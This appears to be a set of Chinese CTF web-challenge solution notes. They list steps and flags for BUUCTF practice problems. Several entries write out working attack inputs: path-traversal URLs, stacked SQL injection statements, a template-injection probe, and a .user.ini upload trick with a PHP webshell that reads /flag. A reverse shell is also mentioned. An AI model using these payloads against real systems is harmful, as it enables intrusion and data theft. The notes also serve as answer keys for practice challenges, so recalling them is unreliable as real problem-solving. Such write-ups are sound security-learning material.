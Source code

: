 # Web

## [HCTF 2018]WarmUp

> 题解

1. http://xxx/source.php
2. http://xxx/?file=hint.php
3. http://xxx/?file=hint.php?/../../../../../ffffllllaaaagggg

> flag{534814ea-1c79-484b-8f8a-39cd858db452}

## [强网杯 2019] 随便注

> 题解

```
-1';show tables#

-1';desc `1919810931114514`#
-1';desc `words`#

# 也可以用以下方式
-1';show columns from `1919810931114514`#
-1';show columns from `words`#

# 注意，以上表名要加反引号

1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

拆分开来如下
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);
#

然后使用1' or 1=1#即可查询出flag
```

> flag{5e64f47a-c4c6-4bb8-aa8f-d422c3b582ab}

## [护网杯 2018]easy_tornado

> 题解

1. http://bfe1efae-0782-4561-aebc-24587b904e4c.node3.buuoj.cn/error?msg={{handler.settings}}
2. http://bfe1efae-0782-4561-aebc-24587b904e4c.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=370610bb5a943aa8144f39debcd0ff34

> flag{f9bd6df8-b20d-4050-8d8a-3504b196374e}

## [SUCTF 2019]EasySQL

> 题解

方法一：``*,1``
方法二：``1;set sql_mode=pipes_as_concat;select 1``

> flag{b8e3ed34-4471-4445-bc21-8a63d9c5ce78}

## [HCTF 2018]admin

> 题解

1. https://skysec.top/2018/11/12/2018-HCTF-Web-Writeup/#%E8%A7%A3%E6%B3%95%E4%B8%80%EF%BC%9Asession%E4%BC%AA%E9%80%A0

> flag{88e12012-69ea-484b-816b-13c12f3f73e7}

## [RoarCTF 2019]Easy Calc

> 题解

1. 字符串解析漏洞
2. 走私攻击
3. 参考URL：http://shangdixinxi.com/detail-1334115.html

> flag{1b7fa8ee-2302-4eff-bbaf-9bf3a80bdc4b} 

## [SUCTF 2019]Checkin

> 题解

1. 新建.user.ini

```
GIF89a
auto_prepend_file=a.jpg
```

2. vim a.jpg

```
GIF89a
<script language='php'>system("cat /flag");</script>
```
3. http:xxx/uploads/xxxx/index.php

> flag{0c504367-b082-42bb-800b-fb370af46345}

## [V&N2020 公开赛]HappyCTFd

> 题解

1. 参考https://www.colabug.com/2020/0204/6940556/amp/

> flag{4222797e-fde9-446f-8dcc-6f46f9841949}

## [V&N2020 公开赛]CHECKIN

> 题解

1. 查看代码发现打开了flag文件，并删除了，进程还存在
2. 反弹shell
3. cat /proc/*/fd/*

> flag{b829fe50-559a-4551-964c-fd146366e624}

## [v&N2020 公开赛]TimeTravel

> 题解

1. 登录BUUCTF内网linux机器
2. vim api/eligible 写入{"success": true}
3. 请求header，Proxy: http://ip:port

>  flag{eb1d22c7-61bc-4303-9f30-3f3f45cdc63e}

## [网鼎杯 2018]Fakebook

> 题解

1. https://www.cnblogs.com/xhds/p/12370281.html

> flag{fde0c56a-e05b-4df5-81f4-8dc5629fe509}

## [De1CTF 2019]SSRF Me

> 题解

1. https://xz.aliyun.com/t/5927

> flag

## [SCTF2019]Flag Shop

> 题解

1. https://www.anquanke.com/post/id/181019#h3-13
2. ruby ERB注入

> flag

## [EIS 2019]EzPOP

> 题解

1. https://www.codetd.com/en/article/8943955

> flag{655af851-539e-4c66-a23d-040fae6eefc9}